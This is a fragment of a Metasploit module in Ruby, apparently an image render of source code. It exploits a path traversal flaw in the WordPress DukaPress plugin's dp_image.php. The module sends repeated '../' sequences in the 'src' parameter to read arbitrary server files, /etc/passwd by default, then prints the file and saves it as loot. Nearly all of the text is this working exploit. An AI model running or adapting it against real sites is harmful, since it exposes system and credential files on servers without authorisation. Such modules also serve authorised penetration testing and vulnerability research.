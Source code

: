 ```
    register_options(
      [
        OptString.new('FILEPATH', [true, 'The path to the file to read', '/etc/passwd']),
        OptInt.new('DEPTH', [ true, 'Traversal Depth (to reach the root folder)', 7 ])
      ], self.class)

  end

  def check

    check_plugin_version_from_readme('dukapress', '2.5.7')

  end

  def run_host(ip)

    traversal = "../" * datastore['DEPTH']
    filename = datastore['FILEPATH']
    filename = filename[1, filename.length] if filename =~ /^\//

    res = send_request_cgi({
      'method' => 'GET',
      'uri'    => normalize_uri(wordpress_url_plugins, 'dukapress', 'lib', 'dp_image.php'),
      'vars_get' =>
        {
          'src' => "#{traversal}#{filename}"
        }
    })

    if res && res.code == 200 && res.body.length > 0

      print_status('Downloading file...')
      print_line("\n#{res.body}")

      fname = datastore['FILEPATH']

      path = store_loot(
        'dukapress.file',
        'text/plain',
        ip,
        res.body,
        fname
      )

      print_good("#{peer} - File saved in: #{path}")
    else
      print_error("#{peer} - Nothing was downloaded. You can try to change the DEPTH parameter.")
    end

  end

end

```
